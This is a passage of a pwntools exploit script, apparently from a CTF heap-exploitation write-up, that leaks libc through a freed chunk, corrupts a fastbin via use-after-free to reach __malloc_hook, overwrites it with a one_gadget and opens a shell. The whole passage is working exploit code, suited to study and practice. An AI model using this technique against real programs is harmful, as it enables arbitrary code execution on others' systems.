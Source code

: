 ```
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))

def edit(idx,content):
    p.recvuntil('>>')
    p.sendline(b'4')
    p.recvuntil(b'idx? ')
    p.sendline(str(idx))
    p.recvuntil('content : ')
    p.send(content)

add(0,0x200)
attach(p)

add(1,0x60)

add(2,0x60)

delete(0)

show(0)

p.recvuntil('content : ')
malloc_hook = u64(p.recvuntil('\x7f')[-6:].ljust(8,b'\x00')) - 0x68
libc_base = malloc_hook - libc.sym['__malloc_hook']

onegadget = libc_base + 0xf1247
log.success('one=>'+hex(onegadget))
fake_chunk = malloc_hook - 0x23
log.success('fake==>'+hex(fake_chunk))

delete(1)


edit(1,p64(fake_chunk))

add(3,0x60)

add(4,0x60)

edit(4,b"a"*0x13+p64(onegadget))

add(5,0)

p.interactive()

```

## 2.27版本
